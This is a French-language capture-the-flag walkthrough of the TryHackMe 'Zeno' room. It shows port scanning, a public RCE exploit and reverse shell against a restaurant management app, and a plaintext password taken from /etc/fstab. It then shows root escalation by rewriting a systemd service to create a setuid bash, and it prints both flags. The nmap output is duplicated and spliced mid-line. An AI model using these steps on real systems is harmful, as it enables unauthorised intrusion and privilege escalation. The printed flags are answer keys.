

# Zeno # 

## Task 1 Start up the VM ##  

## Task 2 Get both flags ##

```bash
sudo sh -c "echo '10.10.248.233 zeno.thm ' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A zeno.thm -p-   
[sudo] Mot de passe de tim : 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-05 08:33 CET
Nmap scan report for zeno.thm (10.10.248.233)
Host is up (0.032s latency).
Not shown: 65342 filtered tcp ports (no-response), 191 filtered tcp ports (host-prohibited)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (92%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 5.4 (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS[sudo] Mot de passe de tim : 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-05 08:33 CET
Nmap scan report for zeno.thm (10.10.248.233)
Host is up (0.032s latency).
Not shown: 65342 filtered tcp ports (no-response), 191 filtered tcp ports (host-prohibited)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (92%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 5.4 (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   31.31 ms 10.9.0.1
2   31.69 ms zeno.thm (10.10.248.233)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.40 seconds

1   31.31 ms 10.9.0.1
2   31.69 ms zeno.thm (10.10.248.233)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.40 seconds
```

Nmap nous montre 2 services qui sont :   
Le service SSH sur le port 22.   
Le sevice HTTP sur le port 12340. 

   

Sur la page principale du site il y a rien.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://zeno.thm:12340 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -q
/rms                  (Status: 301) [Size: 234] [--> http://zeno.thm:12340/rms/]
```

gobuster nous trouve un répertoire rms.  

   

On tombe sur une page de connexion qui nous présente un système de gestion d'hôtel restaurant.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/BJConway/thm_writeups/main/challenges/zeno/rms_exploit.py -nv
2021-11-05 14:23:44 URL:https://raw.githubusercontent.com/BJConway/thm_writeups/main/challenges/zeno/rms_exploit.py [1516/1516] -> "rms_exploit.py" [1]
```
On trouve sur internet un exploit.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ head -15 rms_exploit.py 
#!/usr/bin/env python3

# Simple implementation of Idad Shah's Restaurant Management System 1.0 RCE exploit script for Try Hack Me's Zeno room
# Idad Shah's original script : https://www.exploit-db.com/exploits/47520
# Vulnerable application : https://www.sourcecodester.com/php/11815/restaurant-management-system.html
# Try Hack Me IDE : https://tryhackme.com/room/zeno

import requests

# configure
LHOST = '10.9.228.66' 
LPORT = '1337'
RHOST = 'zeno.thm' # ip of target without port

# don't touch for basic use

tim@kali:~/Bureau/tryhackme/write-up$ cp reverseShell.php shell.php

```

On configure rms_exploit.py
On configure notre reverse shell en php.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo pwncat -l 1234
[14:31:07] Welcome to pwncat 🐈! 
```

On écoute le port 1234 pour avoir un shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python rms_exploit.py 
```

On exécute l'exploit.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat_listen 1234
sudo pwncat -l 1234
[14:31:07] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
[14:31:11] received connection from 10.10.167.71:51210                                                                                                                                                                              bind.py:76
[14:31:12] 0.0.0.0:1234: normalizing shell path                                                                                                                                                                                 manager.py:504
           10.10.167.71:51210: registered new host w/ db                                                                                                                                                                        manager.py:504
(local) pwncat$ run enumerate
...
creds.password facts
  - Potential Password at /var/www/html/rms/admin/login-exec.php:33
  - Potential Password at /var/www/html/rms/admin/login-exec.php:40
  - Potential Password at /var/www/html/rms/admin/login-exec.php:54
  - Potential Password at /var/www/html/rms/admin/update-exec.php:23
  - Potential Password at /var/www/html/rms/admin/update-exec.php:24
  - Potential Password at /var/www/html/rms/admin/update-exec.php:25
  - Potential Password at /var/www/html/rms/admin/update-exec.php:34
  - Potential Password at /var/www/html/rms/login-exec.php:34
  - Potential Password at /var/www/html/rms/password-reset.php:49
  - Potential Password at /var/www/html/rms/register-exec.php:36
  - Potential Password at /var/www/html/rms/register-exec.php:37
  - Potential Password at /var/www/html/rms/update-exec.php:22
  - Potential Password at /var/www/html/rms/update-exec.php:23
  - Potential Password at /var/www/html/rms/update-exec.php:24
  - Potential Password 'FrobjoodAdkoonceanJa,domain=localdomain,soft\t0 0' (/etc/fstab:12)
  - Potential Password at /etc/pki/tls/openssl.cnf:114
  - Potential Password at /etc/pki/tls/openssl.cnf:115
  - Potential Password at /etc/pki/tls/openssl.cnf:159
  - Potential Password '<secret>' (/etc/logrotate.d/mariadb:13)
  - Potential Password at /etc/libuser.conf:31
  - Potential Password at /etc/libuser.conf:37
  - Potential Password at /etc/libuser.conf:51
  - Potential Password at /etc/php.ini:1047
  - Potential Password at /etc/php.ini:1108
  - Potential Password 'FrobjoodAdkoonceanJa,domain=localdomain,soft  0 0' (/etc/fstab.orig:12)
```

En énumérant le systeme on trouve des mots de passe.  
Il nous montre un mot de passe en clair qui est : FrobjoodAdkoonceanJa  

```bash
(remote) apache@zeno:/var/www/html/rms/images$ ls /home
edward
(remote) apache@zeno:/var/www/html/rms/images$ su edward
Password: 
```

On essaie le mot de passe pour se connecter en tant que edward, ça fonctionne.   

**Content of user.txt**

```bash
(remote) edward@zeno:/var/www/html/rms/images$ cd ~
(remote) edward@zeno:/home/edward$ ls
user.txt
(remote) edward@zeno:/home/edward$ cat user.txt 
THM{070cab2c9dc622e5d25c0709f6cb0510}
```

On va dans le répertoire edward et on lit le fichier user.txt.   
LE flag est : THM{070cab2c9dc622e5d25c0709f6cb0510}  
```

**Content of root.txt**  

```bash
(remote) edward@zeno:/home/edward$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```

On peut redémarer le système sans mot de passe avec les droits root.  

```bash
(remote) edward@zeno:/home/edward$ systemctl -l
...
 zeno-monitoring.service                                       loaded failed failed    Zeno monitoring
```

On remarque un service non commun.  

```bash
remote) edward@zeno:/home/edward$ systemctl status  zeno-monitoring.service
* zeno-monitoring.service - Zeno monitoring
   Loaded: loaded (/etc/systemd/system/zeno-monitoring.service; enabled; vendor preset: disabled)
   Active: failed (Result: exit-code) since Fri 2021-11-05 13:51:27 CET; 1h 4min ago
  Process: 618 ExecStart=/root/zeno-monitoring.py (code=exited, status=1/FAILURE)
 Main PID: 618 (code=exited, status=1/FAILURE)

(remote) edward@zeno:/home/edward$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```

On voit que l'on peut modifier ExecStart pour fabriquer un shell setuid.   

```bash
(remote) edward@zeno:/home/edward$ cat /etc/systemd/system/zeno-monitoring.service 
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /bin/bash /home/edward/;chmod +xs /home/edward/bash"

[Install]
WantedBy=multi-user.target
```

On modifie le service pour qu'il donne le setuid à notre bash

```bash
(remote) edward@zeno:/home/edward$ sudo -u root /usr/sbin/reboot

Session terminated, killing shell...Terminated
 ...killed.

```

On redémarre le système.  

```bash
tim@kalu:~/Bureau/tryhackme/write-up$ pwncat edward@zeno.thm
[15:40:20] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
Password: ********************
[15:41:29] zeno.thm:22: normalizing shell path                                                                                                                                                                                  manager.py:504
           zeno.thm:22: registered new host w/ db                                                                                                                                                                               manager.py:504
(local) pwncat$                                  
(remote) edward@zeno:/home/edward$ ls -al bash
-rwsr-sr-x. 1 root root 964536 Nov  5 15:40 bash
(remote) edward@zeno:/home/edward$ ./bash -p
(remote) root@zeno:/home/edward# id
uid=1000(edward) gid=1000(edward) euid=0(root) egid=0(root) groups=0(root),1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
(remote) root@zeno:/home/edward# cat /root/root.txt
THM{b187ce4b85232599ca72708ebde71791}
```

On exécute notre bash qui setuid, on a les droits root.  
On lit le fichier root.txt et on a notre flag.   
Le flag est : THM{b187ce4b85232599ca72708ebde71791}   

```